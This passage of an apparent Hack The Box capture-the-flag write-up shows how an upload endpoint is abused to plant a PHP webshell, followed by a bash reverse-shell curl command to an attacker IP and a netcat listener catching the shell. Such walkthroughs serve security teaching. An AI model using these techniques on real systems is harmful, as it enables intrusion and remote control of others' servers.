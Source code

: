 I’ll also try asking [ChatGPT](https://chat.openai.com/chat) about this, and it gives a nice answer as well:

![image-20221202114350281](https://0xdfimages.gitlab.io/img/image-20221202114350281.png)

#### Build Upload Request

I’ll send the request to `/classes/Users.php` over to Repeater, and add in the `Content-Type` header and the file item from the example. I’ll update the `boundary` just to show it can be anything, and change the metadata about the file a bit:

[![image-20221128142916317](https://0xdfimages.gitlab.io/img/image-20221128142916317.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221128142916317.png)

It responds with an error saying that `file_upload` is missing. That’s almost certainly referring to the `name` of the item, which is `uploadedfile` from that example. I’ll update it, and it works, returning a path:

[![image-20221128143019136](https://0xdfimages.gitlab.io/img/image-20221128143019136.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221128143019136.png)

That file is on the server:

![image-20221128143050001](https://0xdfimages.gitlab.io/img/image-20221128143050001.png)

This part could be frustrating to people, as in order to get a different error message, I need to have a form object with `filename=something`. That’s the standard form data created by a `<input type="file">` HTML tag. The `name=file_upload` is custom to the application here, which is why an error message is necessary to leak that bit of information.

#### Upload Webshell

I’ll update that request to hold a PHP webshell. It also seems to keep the `filename`, appending a number to the front of the name, so I’ll change that to end with `.php`:

[![image-20221128143303095](https://0xdfimages.gitlab.io/img/image-20221128143303095.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221128143303095.png)

It works:

![image-20221128143246146](https://0xdfimages.gitlab.io/img/image-20221128143246146.png)

### Shell

I’ll put a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in as the command and submit it:

```

oxdf@hacky$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' http://portal.carpediem.htb/uploads/1669663920_0xdf.php

```

At a listening `nc`, there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.167 46920
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3c371615b7aa:/var/www/html/portal/uploads$ 

```
